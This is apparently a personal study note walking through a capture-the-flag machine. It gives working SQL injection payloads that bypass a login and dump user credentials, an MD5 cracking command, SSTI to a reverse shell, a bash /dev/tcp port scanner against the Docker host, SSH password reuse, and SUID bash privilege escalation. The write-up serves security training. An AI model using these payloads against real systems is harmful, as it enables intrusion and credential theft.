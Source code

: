 1. Enumerate ports

2. Obtain information about the page hosted in that IP with the command whatweb

3. Try to enumerate more info with the Nmap script http-enum

4. Once you've tried to enumerate everything in the web-app you can now try to do somethings in the page itself

5. The first thing you can try is to do an SQL injection in the login page by sending a normal email and intercept the request in order to change the normal email into an SQL query like this: hello@hello.com' or 1=1 -- -

6. This sends you to the admin control page but it requests you a password in order to enter the flask management panel

7. Once you've exploited the login this way you can try another way by adding " ' order by 4-- -" or other numbers until you hit the maximum number of columns

8. Now you can try to insert numbers by adding ' union select 1, 2, 3, 4 

9. You'll see that the number 4 reflects in the server response, so, you can now try to exploit it via a [SSTI - Server Side Template Injection](</General Info/Tecnologias Web/Ataques/SSTI - Server Side Template Injection.md>) attack

10. As a PoC send something like ' union select 1, 2, 3, {{7\*7}}-- -

11. Because this didn't work out as expected now you can try a common SQL injection enumeration like:
	`' union select 1, 2, 3, table_name from information_schema.tables-- -` - List all tables from all DBs
	`' union select 1, 2, 3, schema_name from information_schema.schemata-- -` - List all DBs
	`' union select 1, 2, 3, table_name from information_schema.tables where table_schema = "main"-- -` - List all tables from the main DB
	`' union select 1, 2, 3, column_name from information_schema.columns where table_schema = "main" and table_name = "user"-- -` - List all the columns from the main DB and the user table
	`' union select 1, 2, 3, {name or id or password or email} from user where {name or id or password or email} = {"admin" or 1}-- -` - List all the content of the user table 1 by 1
	`' union select 1, 2, 3, group_concat(id,":",name,":",password,":", email) from user where {search criteria}-- -` - List all the content of the user table one user per line

12. Once you've obtained the password hashed you can try to identify it with hash-identifier and try to crack it

13. The way to crack it is by running the following command: john --wordlist=__{WORDLIST}__ hash --format=Raw-MD5

14. Now that you've got the password you can finally enter the flask admin panel

15. Going into the page you will come across the used edit panel that has the interesting name parameter that is susceptible to a SSTI attack

16. Try to run the attack to gain remote code execution, and eventually a reverse shell, listed in [SSTI - Server Side Template Injection](</General Info/Tecnologias Web/Ataques/SSTI - Server Side Template Injection.md>).

17. Now that you've a reverse-shell you can see if you're already in the victim's machine by using the command "hostname -I"

18. Now that we know we are in a container we can try to list interesting IPs with `route -n` 

19. Because there is an IP that ends with 1 we have to hack it to enter in the original user machine

20. Use `mount` to see all the mounts in docker and figure out that the directory that contains the flag is, indeed, a mount from the user's machine to the home directory

21. In this machine particularly you can see with `mount | grep home` that the /dev/sda1 is being mounted in /home/augustus

22. One of the last steps is to write a script to enumerate all the open ports in the victim's original machine by creating an script that does the same job as nmap:

```
#!/bin/bash

function ctrl_c(){
        echo -e "\n\n[-] Exiting...\n"
        tput cnorm; exit 1
}

trap ctrl_c INT

tput civis
for port in $(seq 1 65535); do
        timeout 1 bash -c "echo '' > /dev/tcp/172.19.0.1/$port" 2>/dev/null && echo "[+] Port $port open" &
done;wait
tput cnorm
```

22.1 - Basic explanation of the script above:

function ctrl_c : Is the function called if the program detects an INT signal such as "Ctrl + C", basically what this function does is echo out a message, make the mouse reappear and exit with a 1 in the exit code. 1 in the exit code is unsuccessful and 0 successful

trap ctrl_c INT : tell the app that when it recieves an INT signal execute the specified function

tput civis and tput cnorm : This command are basically to tell the app to disappear and appear the mouse respectively

for port in $(seq 1 65535); do : This part of the script tells the app to make the port variable have the the value 1, 2, 3, etc..

timeout 1 : Tells the app to kill the process if its duration is more than 1 second

bash -c "__{COMMAND}__" : Makes the bash shell execute the following command

echo ' ' > /dev/tcp/{IP}/$port : Sends an empty string to the machine in the ip specified and in the port that the port variable has that cycle

2>/dev/null : Tells the app to redirect all the error messages to /dev/null

&& echo "\[+] Port $port open" & : Makes the script only run the message if the exit code of the echo is 0. The final & makes the app use multiple threads to run the process of discovering ports

done; wait : done is to tell the app to finish the for iteration and wait is to make the app wait till the end of all the active threads

23. Now that we've created the shell file we can run the following command to make the shell convert the file into base64 and copy it into the clipboard to later on paste it in the victim's machine. The console command is explained in [Pass files easily from one shell to other](</General Info/Shell/Pass files easily from one shell to other.md>).

24. We've seen that the port 22 is open, so, because we've some credentials we can try to enter in the SSH service of the main machine with the user leaked in the mount "augustus" with the following command: `ssh augustus@172.19.0.1` and try the password "superadministrator" later on

25. We've gained access so we now can list all the machine to see if we're finally on the machine with the following commands `hostname -I` and `ip a`. See [Things to enumerate (Machine)](</General Info/Enumeration/Things to enumerate (Machine).md>)

26. After trying a lot of things the way to escalate privileges is to copy the bash to /home/augustus and, from the mount, give that file SUID permissions and make it root property with `chown root:root bash` and `chmod 4755 bash`, enter augustus profile again and run `./bash -p`